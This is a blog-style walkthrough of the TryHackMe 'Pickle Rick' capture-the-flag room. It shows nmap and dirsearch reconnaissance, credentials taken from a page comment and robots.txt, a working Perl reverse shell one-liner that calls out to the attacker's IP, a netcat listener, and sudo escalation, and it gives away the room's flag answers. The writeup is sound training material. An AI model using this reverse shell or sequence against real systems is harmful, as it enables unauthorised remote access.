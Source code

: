 ```yaml
---
tagline: picklerick
title: Pickle Rick | Writeup
description: An extra-fun web server exploitation room
banner: /blog/picklerickbanner.jpeg/
banner_alt: Information is power. But like all power, there are those who want to keep it for themselves. -Aaron Swartz
date: '2024-03-10'
---
```


## 📡 NMAP Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.108.226
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 21:47 EST
Nmap scan report for 10.10.108.226
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

- Port 22 & 80 are open.

## 🌐 Accessing the website

- Since port 80 is open, we know there is a website. Let's check it out!

![Image showing the website](/blog/picklerick/website.png 'Fig.1')

- Judging by the blatent hint, we need to use Burpsuite.

## 🟧🔎 Burpsuite & Dirsearch

![Image showing a comment](/blog/picklerick/secretcomment.png 'Fig.2')

- In the source code, I found a comment with a username. That may be useful in the future.

- Since we have no leads to follow, lets run Dirsearch.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u http://10.10.108.226 --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/http_10.10.108.226/_24-03-09_23-40-12.txt

Target: http://10.10.108.226/

[23:40:12] Starting:                                                                                  
[23:40:36] 200 -  588B  - /assets/                                          
[23:40:36] 301 -  315B  - /assets  ->  http://10.10.108.226/assets/
[23:40:53] 200 -  455B  - /login.php                                        
[23:41:03] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Aquiring the Ingredients

- Lets look at */robots.txt* first.

![Image showing robots.txt](/blog/picklerick/robotstxt.png 'Fig.3')

- Oh! Lets just keep that text for future reference though.

- We should also take a look at */login.php* as that is the only page that would help us find stuff.

![Image showing login page](/blog/picklerick/login.png 'Fig.4')

- We know the username is *R1ckRul3s*, what if we try the text we found in */robots.txt*?

![Image showing us logged in](/blog/picklerick/loggedin.png 'Fig.5')

- AND IT WORKED!!!! It seems like we get a Command Panel, lets run some commands to get some ingredients.

- Running ```ls``` gives us this (seen in Fig.6 below)

![Image showing me running ls](/blog/picklerick/ls.png 'Fig.6')

- Now we know we can run commands like this, let's get the first ingredient first!

![Image showing it not letting me](/blog/picklerick/commandissue.png 'Fig.7')

- Welp, we might have to first spawn a reverse shell (I will be using [revshells.com](https://www.revshells.com/))

```bash:Command Panel
# below is the reverse shell i used

perl -e 'use Socket;$i="10.6.22.229";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.6.22.229] from (UNKNOWN) [10.10.108.226] 35408
sh: 0: can't access tty; job control turned off
$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

- Now to get the second ingredient

```bash:Terminal
$ pwd
/home/rick
$ cat second\ ingredients
1 jerry tear
$ 
```

- Running ```sudo -l``` told me I could run anything as long as I use sudo. Lets get the Final Ingredient

```bash:Terminal
$ sudo ls root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
$ 
```

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
